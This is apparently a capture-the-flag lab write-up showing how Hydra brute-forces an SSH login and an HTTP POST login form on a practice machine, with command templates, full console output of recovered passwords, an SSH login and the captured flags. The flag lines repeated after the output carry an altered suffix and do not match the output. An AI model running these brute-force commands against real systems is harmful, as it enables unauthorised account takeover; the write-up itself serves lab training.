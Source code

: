 # Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```hydra -l user -P passlist.txt ftp://192.168.0.1```

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).
## SSH

```hydra -l <username> -P <full path to pass> <ip> -t 4 ssh```
[-h](https://i.imgur.com/D71vkKM.png)

```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 -t 4 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 12:51:58
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.39.3:22/
[22][ssh] host: 10.10.39.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 12:52:51
bibo318@parrot:~$ ssh molly@10.10.39.3
The authenticity of host '10.10.39.3 (10.10.39.3)' can't be established.
ECDSA key fingerprint is SHA256:CvZ/M3lLX1Nv/BtNNW9Cb+JYa2z85ldNGQdNp0HwQ9U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.39.3' (ECDSA) to the list of known hosts.
molly@10.10.39.3's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-39-3:~$ ls
flag2.txt
molly@ip-10-10-39-3:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```
flag = ```THM{c8eeb0468febbadea859baeb33b2541b12**123:))}```


## Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

```hydra -l  -P  <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

- [-h](https://i.imgur.com/vC3ZU4E.png)
- [check this to understand how to use it](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)



```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 13:09:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.39.3:80/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect.
[80][http-post-form] host: 10.10.39.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 13:09:29
```
```html
<body>

    <div class="jumbotron text-center">
      <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
    </div>

    <script src="/js/jquery.slim.min.js"></script>
    <script src="/js/popper.min.js"></script>
    <script src="/js/bootstrap.min.js"></script>
</body>
```

flag = ```THM{2673a7dd116de68e85c48ec0b1f2612e12**123:))}```